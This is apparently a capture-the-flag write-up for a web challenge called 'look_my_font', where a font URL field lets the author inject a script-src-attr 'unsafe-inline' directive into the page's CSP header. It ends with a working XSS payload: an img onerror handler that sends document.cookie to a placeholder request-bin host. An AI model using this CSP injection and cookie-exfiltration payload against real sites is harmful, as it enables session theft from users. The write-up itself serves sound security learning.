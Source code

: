 # look_my_font

The site has basically two functionalities: a try-font and a share-font.

They are pretty the same but try-font let us preview the font, share-font basically send this preview to the server.

Then we can use try-font to debug the XSS and then use share-font to exploit it.

There are three fields:

- Text: the text to preview, not sanitized
- Font Name: the font name, sanitized thus not useful
- Font URL: the font URL

How can this stuff work? How can it preview a font from whatever URL?
It just append the font url to the CSP header, then the browser will download the font and use it to render the text. But this is a HUGE vulnerability, because now we have full control of the CSP header.

Oh, not quite. We cannot add any directive to the CSP header, we can only add directives that are not already present, and a LOT of directives are already present.

Then using [MDN CSP](`https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy`) we can find a lot of directives that we can use. And I jumped on `script-src-attr` that let us specify valid sources for JavaScript inline event handlers.

Having this in mind, we can use the following payload:

```html
Text: <img src=x onerror=window.location.href='{SOME.REQUEST.BIN}/?cookie='+document.cookie>
Font Name: XSS is cool
Font URL: ; script-src-attr 'unsafe-inline'
```
